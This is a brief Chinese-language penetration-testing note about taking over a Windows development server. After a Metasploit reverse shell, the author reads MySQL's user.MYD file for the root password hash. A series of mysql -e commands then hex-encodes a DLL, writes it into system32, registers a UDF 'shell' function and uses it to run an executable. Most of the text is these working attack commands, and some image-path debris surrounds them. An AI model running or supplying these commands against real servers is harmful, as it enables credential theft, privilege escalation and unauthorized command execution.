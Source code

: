 IP .3  
![](/img/ded2f1377655e8467db234c432e8a51f.jpg)

为一台开发机。目标仅支持 asp，无其他脚本支持。但是服务器中安装有 mysql，php 等。并且无 asp to mysql Device Drive IIS配置中也并不支持 php。msf 反弹后，继续搜集情报。

`type C:\MySQL\MySQL Server 5.0\data\mysql\user.MYD`

得到 root hash

在实际情况中，交互的shell下运行 `mysql -uroot -pxxx` 无法继续交互，需要参数 e 解决这个问题。
```bash
mysql -uroot -pxxxxxxxx mysql -e "create table a (cmd LONGBLOB);" 
mysql -uroot -pxxxxxxxx mysql -e "insert into a (cmd) values (hex(load_file('C:\\xxxx\\xxxx.dll')));"
mysql -uroot -pxxxxxxxx mysql -e "SELECT unhex(cmd) FROM a INTO DUMPFILE
 'c:\\windows\\system32\\xxxx.dll';"
mysql -uroot -pxxxxxxxx mysql -e "CREATE FUNCTION shell RETURNS STRING SONAME 'udf.dll'" 
mysql -uroot -pxxxxxxxx mysql -e "select shell('cmd','C:\\xxxx\\xxx\\xxxxx.exe');"
```
![](/img/0778524b132d34c4e9ac2bdeb4f5ff26.jpg)

**如果限制上传大小同样可以hex解决上传大小问题。**
